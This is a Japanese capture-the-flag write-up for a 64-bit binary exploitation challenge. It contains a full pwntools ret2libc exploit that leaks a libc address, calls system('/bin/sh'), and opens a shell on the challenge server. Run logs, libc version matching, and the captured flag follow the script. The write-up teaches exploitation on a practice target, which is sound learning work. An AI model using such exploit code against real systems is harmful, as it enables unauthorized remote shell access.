

# dROPit:Binary Exploitation:300pts
You're on your own this time. Can you get a shell?  
nc challenges.ctfd.io 30261  
Hint  
[https://libc.rip](https://libc.rip/)  

# Solution
ret2libcを行うと予想できる。  
以下のテンプレートhack.pyを使用する。  
```python:hack.py
from pwn import *

elf = ELF('./dropit')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = remote('challenges.ctfd.io', 30261)
#io = process(elf.path)
rop = ROP(elf)

puts_plt = elf.plt['puts']
main = elf.symbols['main']
libc_start_main = elf.symbols['__libc_start_main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(puts_plt))
log.info("__libc_start_main: " + hex(libc_start_main))
log.info("pop rdi gadget: " + hex(pop_rdi))

base = b'A' * 56

io.recvline()
payload = base + p64(pop_rdi) + p64(libc_start_main) + p64(puts_plt) + p64(main)
io.sendline(payload)
recieved = io.recvline().strip()
io.recvline()

leak = u64(recieved.ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))
libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

binsh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']
log.info("/bin/sh %s " % hex(binsh))
log.info("system %s " % hex(system))
payload = base + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
io.sendline(payload)

io.interactive()
```
実行する。  
```bash
$ python hack.py
[*] '/dropit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.ctfd.io on port 30261: Done
[*] Loaded 14 cached gadgets for './dropit'
[*] puts@plt: 0x40102c
[*] __libc_start_main: 0x403fe8
[*] pop rdi gadget: 0x401203
[*] Leaked libc address,  __libc_start_main: 0x7f2bbd33abc0
[*] Address of libc 0x7f2bbd319110
[*] /bin/sh 0x7f2bbd4cd20a
[*] system 0x7f2bbd3685f0
[*] Switching to interactive mode
?
[*] Got EOF while reading in interactive
$ ls
$ ls
[*] Closed connection to challenges.ctfd.io port 30261
[*] Got EOF while sending in interactive
```
libcのバージョンが違うようでシェルが取れていないようだ。  
```bash
$ /lib/x86_64-linux-gnu/libc.so.6
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.2) stable release version 2.27.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 7.5.0.
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```
`__libc_start_main`が`0x7f2bbd33abc0`なので[https://libc.rip](https://libc.rip/)を使う。  
が得られる。  
2.32のような気がするので、[pkgs.org (libc6_2.32-0ubuntu3_amd64.deb)](https://ubuntu.pkgs.org/20.10/ubuntu-main-amd64/libc6_2.32-0ubuntu3_amd64.deb.html)からダウンロードする。  
```bash
$ wget http://archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.32-0ubuntu3_amd64.deb
~~~
$ ar vx libc6_2.32-0ubuntu3_amd64.deb
x - debian-binary
x - control.tar.xz
x - data.tar.xz
$ tar Jxvf data.tar.xz
~~~
$ ./lib/x86_64-linux-gnu/libc-2.32.so
GNU C Library (Ubuntu GLIBC 2.32-0ubuntu3) release release version 2.32.
Copyright (C) 2020 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 10.2.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```
これをhack.pyと同じディレクトリに置き、使用する。  
hack.pyの`libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')`を`libc = ELF('./libc-2.32.so')`に書き換えればよい。  
```bash
$ python hack.py
[*] '/dropit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/libc-2.32.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.ctfd.io on port 30261: Done
[*] Loaded 14 cached gadgets for './dropit'
[*] puts@plt: 0x40102c
[*] __libc_start_main: 0x403fe8
[*] pop rdi gadget: 0x401203
[*] Leaked libc address,  __libc_start_main: 0x7f453a024bc0
[*] Address of libc 0x7f4539ffc000
[*] /bin/sh 0x7f453a1aa41f
[*] system 0x7f453a04c3c0
[*] Switching to interactive mode
$ ls
dropit
flag.txt
$ cat flag.txt
nactf{r0p_y0ur_w4y_t0_v1ct0ry_698jB84iO4OH1cUe}
```
実行するとシェルがとれる。  

## nactf{r0p_y0ur_w4y_t0_v1ct0ry_698jB84iO4OH1cUe}